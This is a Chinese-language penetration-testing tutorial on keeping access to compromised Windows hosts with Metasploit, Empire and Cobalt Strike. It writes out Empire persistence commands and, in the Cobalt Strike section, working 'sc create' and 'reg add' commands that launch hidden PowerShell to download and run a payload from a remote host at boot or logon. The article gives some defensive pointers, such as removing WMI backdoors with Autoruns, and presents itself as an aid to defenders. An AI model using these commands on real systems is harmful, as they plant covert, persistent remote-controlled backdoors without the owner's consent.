# 第6篇：三大渗透测试框架权限维持技术

## 0x00 前言

在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。

那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？

## 0x01 MSF权限维持

使用MSF维持权限的前提是先获得一个_meterpreter_ shell，通过_meterpreter_ shell获取持久性shell的方法有两种：

**Persistence模块**

通过启动项启动\(persistence\)的方式，在目标机器上以反弹回连。


```text
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
```

生成的相关文件位置 ：

```text
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```



**Metsvc 模块**

通过服务\(metsvc\)启动的方式，在目标机器启动后自启动一个服务，等待连接。



后门排查：目标主机上开启了一个Meterpreter服务。



## 0x02 Empire 权限维持

Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即


| elevated（管理权限） | misc（杂项） | powerbreach | userland（用户权限） |
| :--- | :--- | :--- | :--- |
| registry\* | add\_netuser | deaduser | backdoor\_lnk |
| schtasks\* | add\_sid\_history\* | eventlog\* | registry |
| wmi\* | debugger\* | resolver | schtasks |
| wmi\_updater\* | disable\_machine\_acct\_change\* |  |  |
|  | get\_ssps |  |  |
|  | install\_ssp\* |  |  |
|  | memssp\* |  |  |
|  | skeleton\_key\* |  |  |

**注册表**

```text
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
```



因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：



**计划任务**

```text
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
```



在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell



**wmi**

```text
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
```


如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。



## 0x03 Cobalt Strike权限维持

通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。



根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。



点击Launch后，返回powershell远程下载执行命令。


**服务自启动后门**

```text
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
```

重启服务器后，成功返回一个shell。



**注册表自启动**

在windows启动项注册表里面添加一个木马程序路径，如：

```text
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f
```


账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。



注册表还有哪些键值可以设置为自启动：

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

## 0x04 结束语

本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。

